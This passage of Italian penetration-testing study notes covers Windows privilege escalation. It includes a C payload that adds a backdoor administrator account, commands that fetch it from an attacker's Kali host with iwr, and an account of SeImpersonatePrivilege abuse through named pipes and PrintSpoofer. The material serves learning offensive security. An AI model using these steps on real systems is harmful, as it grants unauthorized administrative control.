 BISOGNA TROVARE UN COMANDO MIGLIORE PERCHE LA LISTA DI SOLITO E' MOLTO LUNGA!

Una volta trovato un task adatto bisogna cambiare il codice con uno malevolo come questo:

```bash
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user nuovo_utente password123! /add");
  i = system ("net localgroup administrators nuovo_utente /add");
  
  return 0;
}
```

Come sempre lo compiliamo su kali e lo passiamo su windows:

```bash
x86_64-w64-mingw32-gcc eseguibile.c -o eseguibile.exe

python3 -m http.server 80

cd C:\\path_dove_caricare_il_file\..

iwr -uri http://$KALI_IP/eseguibile.exe -Outfile eseguibile.exe
```

## 16.3.2. Using Exploits

Alcuni privilegi assegnati ad utente non privilegiato, potrebbero essere sfruttati per eseguire privilege escalation:
- _SeImpersonatePrivilege_
- _SeBackupPrivilege_
- _SeAssignPrimaryToken_
- _SeLoadDriver_
- _SeDebug_

E' molto raro trovare utenti con il _SeImpersonatePrivilege_ attivo, ma è frequente trovarlo nel momento in cui si ottiene *code execution* su un sistema windows sfruttando una vulnerabilità su un web-server IIS. 
Infatti, spesso i web-server IIS sono in esecuzione come _LocalService_, _LocalSystem_, _NetworkService_, o _ApplicationPoolIdentity_, i quali potrebbero avere il _SeImpersonatePrivilege_ assegnato.

Le named-pipe sono collegate al _SeImpersonatePrivilege_ e sono un metodo per la comunicazione locale o remota inter-process. Quando un client si connette ad una named-pipe, il server può utilizzare il _SeImpersonatePrivilege_ per impersonare il client dopo aver acquisito l'autenticazione dal processo di connessione.
Quindi, trovando un processo adatto, questo può essere sfruttato facendolo connettere ad una named-pipe controllata da noi.

Può essere utilizzato il tool _PrintSpoofer_.
